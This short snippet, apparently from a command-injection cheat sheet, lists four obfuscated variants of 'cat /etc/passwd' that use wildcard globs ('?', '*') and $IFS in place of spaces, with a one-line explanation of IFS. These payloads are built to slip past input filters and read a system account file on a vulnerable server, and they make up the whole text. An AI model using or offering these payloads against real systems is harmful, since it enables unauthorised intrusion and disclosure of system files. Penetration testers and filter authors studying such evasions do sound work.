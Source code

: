 1. /usr/bin/cat /etc/passwd ==  /???/???/c?t$IFS/?t?/p?s?wd
2. /*/?at$IFS/???/???swd
3. /****/?at$IFS/???/*swd
4. /****/?at$IFS/???/*******swd

(IFS is Internal Field Separator = [space], [tab] or a [newline])
